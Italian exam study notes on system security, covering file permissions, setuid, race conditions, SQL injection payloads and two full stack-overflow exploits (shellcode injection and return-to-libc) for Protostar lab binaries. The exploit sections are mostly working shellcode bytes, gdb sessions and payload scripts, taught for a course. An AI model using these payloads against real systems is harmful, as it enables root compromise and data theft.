



# Contenuti 

Contenuto per l'esame
- Protostar: 4,5,6 (guardare a 1 $\rightarrow$ 6, prime 4 dal sito)
- Pentester: SQL 1,2,3,8; 4,5,6,7,9 non le chiede per permessi elevati
- XSS: 1 
- Code/Command injection: Guardarle tutte (sono facili)
- File include: 1,2 (e guardare la teoria delle mitigazioni)

Extra: 
- XSS: 1,2,3
- Code injections: 1,2,3,4
- SQL injections: 1,2,3,8


Errori tipici che verranno considerati:
1. Mancata sanitizzazione input 
2. Eccesiva verbosità output
3. Eccessiva esposizione di asset 
4. Esecuzione con privilegi eccessivamente e inutilmente elevati 
5. Corse critiche


### Permessi sui file
I permessi di accesso al file sono 3 terne di azioni:
- Prima terna: Creatore del file 
- Seconda terna: Gruppo di lavoro del creatore del file 
- Terza terna: Tutti gli altri utenti 

Permessi tipici 

```bash
-rwxr-wx-r-x 2 root root ... zsh
-rw-r--r--   1 root root ... passwd 
```

Rappresentazione ottale:
- `R` $\rightarrow$ 4
- `W` $\rightarrow$ 2 
- `X` $\rightarrow$ 1 
rwxrwxr-w $\rightarrow$ 4+2+1, 4+2+1, 4+1 $\rightarrow$ 0775 (ottale)

Rappresentazione simbolica:
- `R` $\rightarrow$ r
- `W` $\rightarrow$ w
- `X` $\rightarrow$ x
- Creatore $\rightarrow$ `u`; Gruppo $\rightarrow$ `g`; Altri $\rightarrow$ `o`
rwxrwxr-w $\rightarrow$ ug+rwx, o+rx (simbolica)

**Bit di permessi `SETUID, SETGID`**

- SETUID: 4 | s (ottale, simbolica)
- SETGID: 2 | s (ottale, simbolica)


Un processo normale in esecuzione assume le credenziali dell'utente (userid e groupid) che lo ha lanciato.  
Se il bit SETUID o il bit SETGID è attivo allora il processo assume le credenziali del creatore del file (userid o gruopid primario) $\rightarrow$ In questo modo diventa possibile cambiare la persona 'effettiva' che esegue il file.  


Il descrittore di un processo memorizza una prima coppia di credienziali, userID e groupID reali, che sono sempre gli ID di chi ha lanciato il processo.  

Il descrittore di un processo memorizza una _seconda_ coppia di credenziali: **user ID e group ID effettivi**.  
Se il bit SETUID è attivo $\rightarrow$ userID effetivo diventa userID del creatore del file. Stessa cosa per SETGID.  


**Algoritmo di controllo dei permessi**:  
Le credenziali _effettive_ del processo sono messe a confronto con i permessi di ogni elemento del percorso di un file, se le credenziali sono sufficineti per ogni elemento del percorso allora viene accordato il permesso di accesso, altrimenti si nega il permesso.  


**Abbassamento e ripristino dei privilegi**:  
Nei SO moderni si usa una terza coppia di credenziali: **userID e groupID salvato**  
Quando un processo parte, le credenziali salvate sono una copia delle credenziali "effettive".  
- Se l'applicazione non svolge operazioni critiche abbassa i propri privilegi a quelli dell'utente che ha eseguito il comdado $\rightarrow$ _priviledge drop_ 
- Quando l'applicazione svolge operazioni critiche, ripristina i privilegi ottenuti tramite l'elevazione automatica $\rightarrow$ _priviledge restore_
- È possibile ripristinare i privilegi a quelli effettivi andando a pescare il valore dell'ID salvato.  


```bash
# chiamata di sistema che ritorna l'ID reale del processo invocante
getuid() 

# chiamata di sistema che ritorna l'ID effettivo 
geteuid()

# permette il cambio degli ID utente di un processo al valore uid
setuid(uid) # userid effettivo

# abbassamento permanente vs temporaneo:
setuid(getuid());
seteuid(getuid());
```


# Corse Critiche

La sincronizzazione di un processo o thread è l'atto di un processo o thread di bloccare la propria esecuzione nell'attesa di un evento; non appena l'evento si verifica il processo o thread riprende la prpopria esecuzione.  

Sincronizzazione sul cambio di stato: la chiamata di sistema `wait()` blocca il processo invocante fino a quando uno dei suoi figli non cambia stato (es: processo figlio esce normalmente o con errore, processo figlio stoppato o ripristinato da un segnale).    

L'ordine di schedulazione di processi e thread impatta _pesantemente_ sul risultato delle operazioni su un asset condiviso (come una variabile).
Quando il risultato finale di una elaborazione su un asset condiviso *dipende* dall'ordine di esecuzione delle istruzioni che la modificano si è in presenza di una **Corsa Critica (race condition)**.  

Siano dati $n$ task eseguiti concorrentemente e cooperanti tramite dati condivisi, diremo che ciascun $T_j$ ha una porzione di codice che accede ai dati condivisi, tale porzione prende il nome di **Sezione Critica**, tale sezione critica deve essere eseguita al _massimo_ da al più un processo/thread alla volta.  

Approcci al problema:
- Accesso in mutua esclusione: si bloccano gli accessi alla variabile condivisa se questa è già in uso
- Esecuzione atomica: si fa in moodo che ogni tentativo di modifica alla variabile condiisa sia eseguito integramente oppure per nulla.  


Nei SO moderni le sezioni dii ingresso e di uscita da una zona critica sono implementate tramite il modello di **`lock`**.  

- `spinlock` $\rightarrow$ implementazione ad attesa attiva, un ciclo while eseguo fino a quando non se ne vanifica la condizione, la CPU continua a ciclare sul while bloccando l'accesso  
    Da usare per attesa brevi, nell'ordine dei ns, diventa disastroso per attese lunghe in quanto il ciclo while brucia il processore  e impedisce ad altri processi di avanzare aumentando la latenza.  

- `attesa passiva` $\rightarrow$ l'attesa nel `wait()` è di tipo passivo. il processo viene messo in attesa (sleep) che si verifichi l'evento che consente l'accesso alla sezione critica, quando si verifica il processo è risvegliato ed inserito in coda.   
    Ideale per attese lunghe, dai ms in su, in quanto si blocca un processo che altrimenti impallerebbe la macchina. Diventa disastroso per attese brevi in quanto la sospensione ed il ripristino del processo introducono un ritardo inaccetabile.   


## SQL Injections:  

Si ricorda lo schema di attacco generale per inizioni di codice  

```
INPUT = INPUT LEGITTIMO +
    + CARATTERE SEPARATORE 
    + STATEMENT SQL ARBITRARIO 
    + CARATTERE CHIUSURA
```

Esistono diversi modi di agganciare uno statement SQL ad un altro: 
- Query concatenata con `;`
- Operatore logico `OR` o `AND`
- Clausola `UNION`

**Tautologie:**  
È possibile utilizzare l'operatore `OR` come separatore di comandi per creare tautologie, ovvero un espressione sempre vera, l'iniezione di una tautologia rende una query SQL sempre vera.  

es: `root' or 1=1 $23`

La tautologia su una clausola `WHERE` mi permette di stampare ogni elemento della tabella.  

**Query UNION:**  
È possibile utilizzare l'operatore `UNION` come separatore dei comandi, tale operatore unisce l'output di più query SQL omogenee.  
Query Omogenee $\rightarrow$ devono avere lo stesso numero di colonne e devono avere dati compatibili sulle stesse colonne.  

Lo statement iniettato dopo una `UNION` è solitamente arbitrario, in questo modo si possono interrogare tabelle arbitrarie, si possono anche eseguire funzioni SQL di sistema (per enumerare il DBMS).  

Un punto importante e non banale consiste nell'individuare il numero di colonne usate dalla query originale $\rightarrow$ per avere query omogenee!  
Si possono usare due tecniche, che sfruttano le clausole:
1. ORDER BY  
    Tale clausola permette di ordinare il risultato di una query in base a una o più colonne, si possono specificare le colonne per nome o per indice (numerico).  
    Se l'indice usato corrisponde a una colonna esistente allora viene effettuato l'ordinametno, altirmenti il DBMS emette un errore.  

    <br>

    L'attaccante inietta ina clausola ORDER BY con indici crescenti e se per l'indice N+1 si verifica un errore allora si deduce che la query originale recupera N colonne  
    Es:  `name=root' ORDER BY 6 %23` è genera un errore, allora avendo prima provato con 1,2,3,4,5 sappiamo che N-1 ossia 6-1 = _5_ sono il numero delle colonne.   

2. SELECT $\rightarrow$ per inserire uno statement con colonne crescenti   
    Un attaccante può iniettare tramite `UNION` uno statement `SELECT` che recupera un numero di colonne crescenti.  
    Nella query si usa il valore `NULL` in quanto compatibile con tutti gli altri tipi di dato SQL, e se il numero di colonne usato nella query iniettata è diverso da quello usato nella query originale il DBMS emette un errore.

    ```
    INPUT = root' +
        + UNION
        + SELECT NULL
        + %23

    si continua a provare incrementando il numero di NULL nella select fino a quando la query non genera un errore
    ```

    Una volta determinate il numero di colonne esatto basta capire quali colonne sono riflesse nell'output, per fare ciò basta iniettare una `SELECT` con valori costanti e diversi per individuare quali vengono riflessi nell'output:

    ```
    INPUT = root' +
        + UNION
        + SELECT 1,2,3,4,5
        + %23
    ```

    Nell'esempio sql_injections1 si nota che vengono riflesse solo le prime 3 colonne!  

<br>

A questo punto si è pronti ad eseguire statement SQL arbitrari! Basta inserire nelle colonne riflesse invocazioin a funzioni di sistema o colonne di tabelle (sistema o utente).  

Gli obiettivi ora diventano: 
1. enumerazione della struttura del DBMS
2. esfiltrazioni dati da tabelle interessanti 

Comandi utili per enumerare il DBMS:
- `version()` $\rightarrow$ restituisce la versione attuale del DBMS
- `database()` $\rightarrow$ restituisce il database attuale  
- `current_user()` $\rightarrow$ utente attualmente connesso al DBMS
- `information_schema()` $\rightarrow$ contiene lo schema di tutti i DB serviti dal server MySQL (strutture delle tabelle, strutture delle colonne, ...)  
  





<br><br>

## Buffer Oveflow:  

Per poter capire l'attacco risulta necessario studiare il sistema, in particolare capire come è organizzato il layout di memoria di un processo e come funziona gets().  
Si apre il manuale di gets() e si legge che tale funzione non effettua controlli di buffer overrun, quindi la funzione gets() permette input più grandi di 64 byte.  

**Layout di memoria di un programma:**  
Quando un programma viene eseguito (./file1), il sistema operativo:
1. carica ll'eseguibile compilato in memoria per eseguirlo (istruzioni binarie del file ELF)
2. crea un processo con uno spazio di indirizzamento _virtuale_ separato dagli altri processi
3. All'interno di tale spazio, assegna aree (segmenti) con ruoli specifici:
    - codice del programma 
    - variabili statiche 
    - heap $\rightarrow$ variabili dinamiche, usata quando programma chiede memoria a runtime
    - stack LIFO (per le funzioni)
    - un area riservata al Kernel  




La variabile `buffer[]` è piazzata sullo stack (l'allocatore di memoria GNU/Linux piazza allocazioni dinamiche piccole <128KB sul heap e piazza quella grandi >= 128KB in aree anonime mappate in memoria).  

Lo stack è organizzato per record di attivazione (frame) e cresce verso gli inidrizzi bassi.  
Gli stack frame sono **navigabili** tramite il registro `EBP` (Extended Base Pointer).  
_Nota:_ Ogni volta che si chiama una funzione in C viene creato un record di attivazioe chiamato `stack frame`, che contiene: 
- param b
- param a 
- return address 
- old EBP
- local variables  

Il registro EBP viene usato come puntatore fisso per accedere alle variabili:
- parametri: indirizzi positivi (EBP + offset)
- variabili locali: indirizzi negativi (EBP - offset) 

  


Il nostro `buffer[]` si trova prima del return address del main() in quanto buffer è una variabile locale alla funzione main e si trovano nello stesso frame dello stack, se lo riempiamo oltre la sua capacità i dati scendono nella memoria contigua sovrascrivendo: altre variabili locali, saved EBP e _l'indirizzo di ritorno_. 

L'attacco quindi consta dei seguenti step:
1. Eseguire il programma vulnerabile
2. Quando viene chiesto l'input per il buffer inseriamo l'input malevolo:
    - primo pezzo: shell code $\rightarrow$ codice macchina che apre una shell
    - secondo pezzo: padding $\rightarrow$ byte inutili per riempire fino al punto in cui si trova il return address, la dimensione del padding è da _calcolare_!  
3. Si esegue l'input che manda in overflow il buffer e sovrascrive le zone oltre il buffer compreso il return address che ora contiene l'indirizzo del buffer!
4. Quando la funzione fa `ret` invece di tornare al chiamante salta all'indirizzo del buffer ed esegue lo shell code che abbiamo inserito
5. Lo shell code apre una shell `/bin/sh` con i privilegi del file vulnerabile, se il file aveva setuid root allora si apre una shell con pieni privilegi sul sistema.  


**Calcolo dello spazio tra buffer e return address:**  
Nel nostro caso il il calcolo si fa tenendo conto che la cella con l'indirizzo di ritorno si trova a `EBP+4` e l'indirizzo di buffer è passato a `gets()`.  
Si esegue il programma ./stack5 sotto debugger, si calcolano i due indirizzi richiesti e si effettua la sottrazione 

$$
\text{(EBP+4) - }\&\text{buffer}
$$

Per fare questo calcolo usiamo il debugger `gdb` e seguiamo i prossimi step:
```bash
gdb ./stack5
start # creerà un breakpoint 1 temporale

p $ebp+4 # per ottenere l'indirizzo di ritorno di main()
# $1 = (void *) 0xbffffcac

# disassembliamo il main per individuare la chiamata a gets()
disassemble main 
# ...
# 0x080483cd <main+9>:	lea    0x10(%esp),%eax
# 0x080483d1 <main+13>:	mov    %eax,(%esp)
# 0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
# ...

# - notiamo che l'indirizzo di buffer viene caricato in %eax e inseriamo un breakpoint 
# all'indirizzo in cui viene chiamata gets(), successivamente dumpiamo i registri per
# vedere il valore di %eax che contiene l'indirizzo del buffer

b * 0x80483d4
c
# arriviamo al breakpoint
info registers 
# eax            0xbffffc60	-1073742752
# ecx            0x971dd9bb	-1759651397

# prendiamo l'indirizzo di %eax e lo sottraiamo a quello di ritorno del main per ottenere 
# il numero di byte necessari. 

0xbffffcac - 0xbffffc60 = 76 
```

A questo punto dobbiamo scrivere lo shellcode, quello che vogliamo eseguire in ambiente linux è:  

```bash
execve("/bin/sh");
exit(0);
```
I parametri di `execve()` sono:  
1. `filename` $\rightarrow$ percorso del programma da eseguire (/bin/sh)
2. `argv[]` $\rightarrow$ array di argomenti del programma (nel nostro caso NULL)
3. `envp[]` $\rightarrow$ array delle variabili di ambiente (NULL)

Nelle chiamate di sistema Linux _i parametri si passano nei registri_:
- `eax` $\rightarrow$ numero identificativo della chiamata di sistema (execve: 11)
- `eNx` $\rightarrow$ argomento $n$-esimo 


```bash
xor %eax, %eax        # azzera EAX (preparazione)
push %eax             # push di un NULL sullo stack (terminatore stringa)
push $0x68732f2f      # "//sh"
push $0x6e69622f      # "/bin"
mov %esp, %ebx        # EBX = puntatore a "/bin//sh"
mov %eax, %ecx        # argv = NULL
mov %eax, %edx        # envp = NULL
mov $0xb, %al         # eax = 11 -> syscall execve
int $0x80             # interrupt per fare la syscall

xor %eax, %eax        # prepara exit(0)
inc %eax
int $0x80
```

Per ottenere la sequenza di byte eseguibii dobbiamo scrivere il file assembly e compilarlo senza generare l'eseguibile finale, in questo modo otteniamo gli **opcode** eseguibili.  
Copiamo tali opcode e li inseriamo in un file python che manderà l'input malevolo.


```python
length = 76 #lunghezza a cui si trova il return address del main 


# indirizzo di ritorno del buffer, è la parte che dobbiamo modificare dello script (otteniamo l'indirizzo del buffer con il debugger)
ret = '\x00\x00\x00\x00' 
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73" + \
            "\x68\x68\x2f\x62\x69\x6e\x89" + \
            "\xe3\x89\xc1\x89\xc2\xb0\x0b" + \
            "\xcd\x80\x31\xc0\x40\xcd\x80"
padding = 'a' * (length - len(shellcode))

payload = shellcode + padding + ret
print payload
```

A questo punto una volta calcolato l'indirizzo del buffer lo trasformiamo in little endian e lo inseriamo nello script (`ret = '\x90\xfc\xff\xbf'`).   

Ora eseguiamo lo script e mettiamo l'output in `/tmp/payload`  
A qeusto punto siamo pronti a sfruttare l'exploit, mandiamo l'input malevolo e noteremo che verrà aperta una nuova shell, facendo `id` noteremo che avremo euid=0 (root) in quanto la shell avrà ereditato i permessi del file vulenerabile.  

```bash
(cat /tmp/payload; cat) | /opt/protostar/bin/stack5
```

Risulta necessario usare due volte `cat` in quanto serve uno STDIN per la shell che creeremo (altrimenti al primo input riceverà un EOF).  
- il primo cat inietta l'input malevolo ed attiva la shell 
- il secondo accetta input da STDIN e lo inoltra alla shell 


<br><br>

## Buffer Overflow - Return to libc  


L'obiettivo è ottenere una shell sfruttando una vulnerabilità di buffer overflow, ma aggirando una contromisura di sicurezza specifica attraverso la tecnica "return-to-libc".

### Fase 1: Analisi del Bersaglio e Strategia

### La Vulnerabilità di `gets()` e la contromisura:

Il punto debole è evidente nella funzione `getpath()`:
```c
char buffer[64];
...
gets(buffer);
```
La funzione `gets()` è notoriamente insicura perché non controlla la lunghezza dell'input. Possiamo scrivere ben oltre i 64 byte allocati per il `buffer`, permettendoci di sovrascrivere altre parti importanti dello stack, incluso l'indirizzo di ritorno.


Il programma, però, non è indifeso. Subito dopo `gets()`, troviamo questo codice:
```c
ret = __builtin_return_address(0);
if((ret & 0xbf000000) == 0xbf000000) {
  printf("bzzzt (%p)\n", ret);
  _exit(1);
}
```
Il codice controlla l'indirizzo a cui la funzione `getpath()` dovrebbe tornare. Se questo indirizzo si trova in un'area di memoria che inizia con `0xbf...` (l'area tipica dello stack), il programma presume un attacco e termina bruscamente. Questo ci impedisce di usare la tecnica classica di iniettare il nostro codice malevolo (shellcode) nello stack e saltare ad esso.

### Return-to-libc

Se non possiamo saltare a codice *nostro* sullo stack, salteremo a codice *già esistente* altrove in memoria. Sfrutteremo le funzioni della libreria standard C (libc), che vengono caricate in memoria insieme al programma.

Il nostro piano è:
1.  Ignorare completamente lo shellcode.
2.  Sovrascrivere l'indirizzo di ritorno di `getpath()` non con un puntatore allo stack, ma con l'**indirizzo della funzione `system()`**.
3.  Poiché `system()` non si trova sullo stack, il suo indirizzo (es. `0xb7...`) supererà il controllo di sicurezza.
4.  Dobbiamo anche fornire a `system()` i suoi argomenti, costruendo un "falso" stack frame che la funzione possa usare.

## Fase 2: L'Indagine con GDB

Ora usiamo GDB (GNU Debugger) per trovare gli indirizzi esatti di cui abbiamo bisogno. Gli indirizzi sono unici per ogni esecuzione, quindi **bisogna trovare i propri**.

### Passo 1: Preparare l'Ambiente
Avvia GDB in modo pulito per simulare un ambiente di esecuzione reale:
```bash
gdb /opt/protostar/bin/stack6
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) start
```

### Passo 2: Trovare l'Indirizzo di `system()` e `exit()`
Questi sono gli indirizzi delle funzioni che vogliamo chiamare. `exit()` ci servirà per terminare il programma in modo pulito dopo aver ottenuto la shell.
```gdb
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60b0 <__libc_exit>
```

### Passo 3: Trovare l'Indirizzo del Buffer (Il Passo Cruciale)
La funzione `system()` ha bisogno di un argomento: un puntatore alla stringa del comando da eseguire (es. `"/bin/sh"`). La strategia più semplice è scrivere questa stringa proprio all'inizio del nostro input, dentro il `buffer`. Ma per farlo, dobbiamo conoscere l'indirizzo esatto del `buffer`.

Per trovare l'indirizzo del buffer:

1.  **Disassembla `getpath` per ottenere una mappa:**
    ```gdb
    (gdb) disas getpath
    ```
    Scorri l'output e cerca l'istruzione che prepara la chiamata a `gets`. si trova una sequenza simile a questa:
    ```assembly
    ...
    0x080484a4 <getpath+32>:	lea    -0x4c(%ebp),%eax
    0x080484a7 <getpath+35>:	mov    %eax,(%esp)
    0x080484aa <getpath+38>:	call   0x8048380 <gets@plt>
    ...
    ```
    L'istruzione `lea -0x4c(%ebp), %eax` (0x4c = 76) è la chiave. **L**oad **E**ffective **A**ddress (LEA) calcola un indirizzo (in questo caso, l'indirizzo del buffer a `EBP - 76`) e lo carica nel registro `EAX`. **Non legge il contenuto, carica l'indirizzo stesso.**

2.  **Imposta un breakpoint *dopo* l'istruzione `lea`:**
    Dobbiamo fermare il programma subito dopo che ha messo l'indirizzo del buffer in `EAX`. Quindi, mettiamo il breakpoint sull'istruzione successiva:
    ```gdb
    (gdb) b *0x080484a7
    ```

3.  **Continua l'esecuzione e ispeziona `EAX`:**
    Ora fai continuare il programma fino al breakpoint.
    ```gdb
    (gdb) c
    Continuing.
    ...
    Breakpoint 1, 0x080484a7 in getpath ()
    ```
    Il programma è fermo. L'istruzione `lea` è stata eseguita. L'indirizzo del buffer è ora nel registro `EAX`. Stampiamolo:
    ```gdb
    (gdb) x/x $eax
    0xbffffc8c:	0xb7f0186e
    ```
    `0xbffffc8c` è l'indirizzo di inizio del `buffer`.

## Fase 3: Costruzione del Payload

Ora abbiamo tutti i pezzi. Dobbiamo solo assemblarli nel giusto ordine per creare uno stack frame falso che inganni `system()`.

La struttura del nostro input sarà:

1.  **Indirizzo di `system()`:** Questo sovrascrive l'indirizzo di ritorno di `getpath()`.
2.  **Indirizzo di `exit()`:** Questo funge da indirizzo di ritorno *falso* per `system()`, garantendo una chiusura pulita.
3.  **Indirizzo del `buffer`:** Questo è il parametro per `system()`: il puntatore al comando.

Il nostro input finale, da scrivere nel programma, sarà quindi strutturato così:

`[Stringa "/bin/sh"] + [Riempimento] + [Indirizzo di system()] + [Indirizzo di exit()] + [Indirizzo del buffer]`


Calcoliamo la distanza tra l'inizio del buffer e l'indirizzo di ritorno di `getpath` ossia quello che vogliamo sovrascrivere.  

Questo metodo si basa sulle posizioni relative al nostro punto di riferimento fisso, il registro `EBP`.
1.  **Dove si trova il nostro bersaglio?** Il nostro bersaglio è l'indirizzo di ritorno di `getpath`. In uno stack frame standard a 32 bit, si trova **sempre** a `EBP + 4`.
2.  **Dove si trova il nostro punto di partenza?** Il nostro punto di partenza è l'inizio del buffer. Dal disassembly, l'istruzione `lea -0x4c(%ebp), %eax` ci ha rivelato che si trova a `EBP - 0x4c`. Convertendo `0x4c` da esadecimale a decimale otteniamo 76. Quindi, il buffer è a `EBP - 76`.
3.  **Calcoliamo la distanza:** La distanza tra i due punti è una semplice sottrazione:  
    `Distanza = (Indirizzo del Bersaglio) - (Indirizzo di Partenza)`
    `Distanza = (EBP + 4) - (EBP - 76)`
    I due `EBP` si annullano a vicenda, lasciandoci con:
    `Distanza = 4 - (-76) = 4 + 76 = 80`
Ecco da dove vengono gli **80 byte**. Dobbiamo scrivere 80 byte per riempire tutto lo spazio dall'inizio del buffer fino a sovrascrivere il vecchio EBP incluso. Il byte numero 81 sarà il primo byte del nostro nuovo indirizzo di ritorno.

## Fase 4: L'Esecuzione Finale

È il momento di mettere tutto in uno script Python. Ricorda di convertire i tuoi indirizzi in formato **little-endian** (scrivendo i byte al contrario).

```python
system: 0xb7ecffb0
exit: 0xb7ec60c0
buffer: 0xbffffc8c

'''
buffer: \x8c\xfc\xff\xbf
system: \xb0\xff\xec\xb7
exit:  \xc0\x60\xec\xb7
'''

print('/bin//sh\x00' + 'a'*71 + '\xb0\xff\xec\xb7' +
      '\xc0\x60\xec\xb7' + '\x8c\xfc\xff\xbf')
```

**Lancio dell'attacco:**  

```bash
(cat /tmp/payload; cat) | /opt/protostar/bin/stack6

```
Il comando `(cat; cat)` invia prima il payload e poi mantiene aperto lo stream di input, permettendoti di interagire con la shell che si aprirà. Se tutto è stato fatto correttamente, vedrai comparire un prompt (`#` o `$`), segno che hai ottenuto il controllo del sistema.

---